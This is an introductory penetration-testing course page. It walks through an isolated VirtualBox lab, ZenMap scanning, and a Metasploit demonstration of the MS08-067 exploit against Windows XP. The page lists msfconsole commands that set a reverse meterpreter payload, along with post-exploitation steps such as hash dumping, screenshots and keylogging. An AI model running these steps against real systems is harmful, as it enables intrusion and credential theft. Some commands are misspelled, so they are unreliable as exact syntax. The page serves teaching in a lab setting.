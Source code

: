 ```yaml
---
layout: course
course: active
title: Penetration Testing
description: Overview of Cyber Security Topics and Career Paths
permalink: /penetration-testing/
penetration-testing: show
estimated-time: 30
---
```


{% include estimated-time.html %}

<div class="embed-responsive embed-responsive-16by9">
  <iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/BdSCIn50xjc" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</div><br>

## Overview
A penetration tester tests the security of applications or networks to find vulnerabilities. Finding vulnerabilities is key to staying a step ahead of hackers who would want to do damage. In order to protect against a hacker, you must in a way think like a hacker. To get a better idea of how hacking works we will go through a demonstration of an attack.

## Environment Setup (Optional)
In a previous section we setup our simulation environment with Virtualbox. For our penetration tests we want to create an isolated network to communicate between our two systems. We will be using Kali Linux and a Windows XP SP2 (Service Pack 2) machine.

If you want to following along a copy of Windows XP SP2 on ebay for less than $20. Remember this demo lab is optional so don't worry about trying to find a copy of Windows if you aren't trying this out yourself. We will use Kali for a later lab so make sure that is set up.

There are a couple of settings we need to take a look at to setup a localized network. Go to the global network settings in Virtualbox. The host network adapter and DCHCP server must be fixed. Once that is done we can go into the network settings on Kali and Windows and change them to host only adapters. Now Kali and Windows XP can communicate back and forth without accessing our actual network.

## Reconnaissance & Scanning
How do we find out who is vulnerable? Before we start actually trying to attack the Windows machine, we must know more about it. To find out more about systems on a network we go through a phases of Reconnaissance and Scanning & Enumeration. What makes these different?

### Reconnaissance
Reconnaissance is a completely passive in that we will look at all available information without actually reaching out to target systems. Usually this means finding out as much as possible about the target systems or applications by searching online.

### Scanning & Enumeration
The scanning phase is when we begin reaching out to systems on the network. This is considered our first active approach locating vulnerabilities in the target systems. In our case we are looking for specific information about about the Windows machine. Things like its location on the network (IP Address), operating system version, and available ports. With this knowledge we can narrow our focus and choose the correct exploit for the particular target machine. To scan the network we will use a tool called ZenMap.

#### Performing the Scan
Open up ZenMap by typing `zenmap &` in the terminal. We will scan a range of IP Addresses based on what our Kali Linux IP. For instance, my Kali Linux IP is 192.168.56.1 so I will scan IPs ending in 1 through 10 `192.168.56.1-10`. Enter your IP range into the target area.

Now all we need to do is choose the intensity of our scan. The drop down on the right of the target box shows us the variety of scans we can use. The three scans we will use are a ping scan, quick scan, and an intense scan. These scans describe how much information we will look get based on the scan. The increased intensity also increases the amount of noise being made during the scan.

- Ping Scan
  * A ping scan just checks to see if the door is there. So any available systems on the network will show up. In our case that should be two: Kali and Windows.
- Quick Scan
  * The quick scan will reveal what ports are available for each system. When we perform our exploit we will be connecting to one of those open ports to drop our payload.
- Intense Scan
  * The intense scan will give the most information. It will give open ports, traceroute, IP address, and operating system information. The results for the intense scan verify that the system on the local network is Windows XP SP2. This is important information since our exploit only works on Windows systems SP2 and before.

## Lab: Ms08_067 Attack Demo (Optional)
This lab will go through the meat of the attack where the action happens. This is the gaining access phase.

<br>
<div class="embed-responsive embed-responsive-16by9">
  <iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/q-ZrX41cIOA" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</div><br><br>


### Gaining Access
What does gaining access to a system look like. Normally you use your computer through a GUI (Graphical User Interface) where you can click on icons to navigate. Gaining access to the Windows XP system won't look the same. Our access will be restricted to just the command line interface. Good news is we can still do just as much on the command line as we can we the interface.

### Metasploit (Optional)
Metasploit is a penetration testing framework that comes with Kali. We will use metasploit to configure and run our attack since it has a large database of exploits and payloads for us to pull from. Once we run the exploit a new console will pop up in our terminal. This console is part of the meterpreter payload.

At this point we have access to the windows system and have access to the windows terminal. From here we can modify information, access data, and perform other attacks. To perform additional attacks we will switch to the meterpreter console inside our terminal. Meterpreter gives us more tools to work with. We can now perform keylogging, webcam and screen recording and other attacks.

### Lab Command List (tabbed area for each section of lab)
~~~~
$ msfconsole
$ search ms08_067_netapi
$ use exploit/windows/smb/ms08_067_netapi
$ set payload windows/meterpreter/revers_tcp
$ set lhost
$ set rhost
$ show targets
$ set target {# correlated with victim system's OS}
$ show options
$ exploit

[in meterpreter console]
> ?
> run windows terminal
> create hack.txt
> screen shot
> hash dump
~~~~

## Exercise Walkthrough
### Who is on the network?
This exercise explores how we can identify vulnerable systems by network scanning. Network scanning is a useful tool for understanding how a network is laid out. Like in the attack demo we can do this scanning with Zenmap.

### Tools
- Virtualbox
- Kali Linux
- ZenMap

### Exercise Goals
- Scan the network for a system
- Identify key information about the system (IP Address, open ports, OS version etc.)

### Exercise Questions
For this assignment we will be scanning [scanme.nmap.org](scanme.nmap.org) to get familiar with scanning. Run a ping, quick, and intense scan. What is the IP Address of the website? Which ports are open and which are closed?. What operating system and version is the website running?

## Additional Resources
For more information about port scanning check out these articles:
